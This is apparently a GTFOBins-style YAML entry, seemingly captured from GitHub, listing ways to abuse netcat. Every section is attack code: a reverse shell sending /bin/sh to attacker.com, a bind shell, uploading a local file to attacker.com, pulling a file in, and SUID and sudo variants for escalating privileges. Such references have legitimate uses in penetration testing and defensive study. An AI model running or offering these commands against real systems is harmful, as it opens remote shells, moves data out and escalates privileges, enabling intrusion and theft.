 ```yaml
---
functions:
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell. This only works with netcat traditional.
      code: |
        RHOST=attacker.com
        RPORT=12345
        nc -e /bin/sh $RHOST $RPORT
  bind-shell-interactive:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell. This only works with netcat traditional.
      code: |
        LPORT=12345
        nc -l -p $LPORT -e /bin/sh
  upload:
    - description: Send a file to a TCP port. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        nc $RHOST $RPORT < "$LFILE"
  download:
    - description: Fetch remote file sent to a local TCP port. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file.
      code: |
        LPORT=12345
        LFILE=file_to_save
        nc -l -p $LPORT > "$LFILE"
  suid-limited:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell. This only works with netcat traditional.
      code: |
        RHOST=attacker.com
        RPORT=12345
        ./nc -e /bin/sh $RHOST $RPORT
  sudo-enabled:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell. This only works with netcat traditional.
      code: |
        RHOST=attacker.com
        RPORT=12345
        sudo nc -e /bin/sh $RHOST $RPORT
---
```

